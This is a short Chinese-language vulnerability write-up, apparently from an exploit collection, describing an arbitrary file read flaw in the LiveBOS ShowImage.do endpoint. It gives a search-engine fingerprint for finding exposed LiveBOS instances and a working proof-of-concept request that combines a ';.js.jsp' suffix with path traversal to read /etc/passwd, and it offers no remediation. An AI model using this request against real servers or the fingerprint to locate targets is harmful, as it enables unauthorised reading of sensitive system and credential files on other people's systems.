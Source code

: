 # LiveBOS ShowImage.do 任意文件读取漏洞

# LiveBOS ShowImage.do 任意文件读取漏洞

## 漏洞描述

LiveBOS ShowImage.do 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

LiveBOS

## 网络测绘

```
app="LiveBOS-框架"
```

## 漏洞复现

登陆页面

![image-20230828111822866](images/image-20230828111822866.png)

验证POC

```
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```

![image-20230828111838582](images/image-20230828111838582.png)

